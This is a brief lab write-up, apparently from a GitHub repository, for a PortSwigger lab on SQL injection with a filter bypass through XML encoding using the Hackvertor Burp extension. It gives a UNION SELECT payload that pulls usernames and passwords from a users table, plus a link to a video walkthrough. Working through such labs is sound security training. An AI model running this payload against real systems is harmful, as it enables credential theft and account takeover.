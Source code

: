 # Lab #17 - SQL injection with filter bypass via XML encoding

```
This lab requires the use of the Hackvertor extension. 
If you are unable to download it via BurpSuite's built-in BAPP store, 
then you can download, and install it manually from portswigger.net:
```
https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100


 ## End Goal: 
**Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.**


 ### Analysis:
```
1 UNION SELECT username || '~'  || password  FROM users
```
**Video:**
[SQL Injection - Lab #17 SQL injection with filter bypass via XML encoding](https://youtu.be/ELdyZm0nK4g?feature=shared)
